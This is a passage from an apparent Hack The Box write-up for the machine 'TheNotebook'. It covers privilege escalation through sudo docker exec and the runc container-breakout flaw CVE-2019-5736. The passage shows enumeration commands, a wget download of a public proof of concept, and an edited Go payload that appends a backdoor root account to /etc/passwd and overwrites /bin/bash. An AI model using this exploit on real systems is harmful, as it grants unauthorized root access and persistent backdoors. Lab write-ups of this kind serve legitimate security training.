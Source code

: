 ## Privilege Escalation
Enumerated sudo capabilities for noah:
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Connected to the docker container and discovered that high privileges was provided:
```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@7b2fd74847ce:/opt/webapp# id
uid=0(root) gid=0(root) groups=0(root)
```

Discovered that runc was available:
```bash
...
[+] Checking if runc is available
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation                            
runc was found in /usr/sbin/runc, you may be able to escalate privileges with it
...
```

Googling around for Docker privilege escalation techniques, an interesting [article from HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#runc-exploit-cve-2019-5736) was found, talking about a `Runc exploit` (**CVE-2019-5736**) that allows elevation of privileges.

> **runc through 1.0-rc6**, as used in **Docker before 18.09.2** and other products, allows attackers to **overwrite the host runc binary (and consequently obtain host root access)** by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe.

Controlling the software versions of the target machine it was discovered that the box was **vulnerable to that CVE**:
```bash
noah@thenotebook:~$ runc -v
runc version 1.0.0~rc6+dfsg1
commit: 1.0.0~rc6+dfsg1-3
spec: 1.0.1
noah@thenotebook:~$ docker -v
Docker version 18.06.0-ce, build 0ffa825
```

On the attacker machine the [PoC from Frichetten](https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go) was downloaded, the payload was adjusted to inject a malicious root user, and then hosted for the download on the target:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go -O privesc.go
...
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ nano privesc.go
...
var payload = "#!/bin/bash \n echo 'root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash' >> /etc/passwd"
...
fd, err := os.Create("/bin/bash")
...
```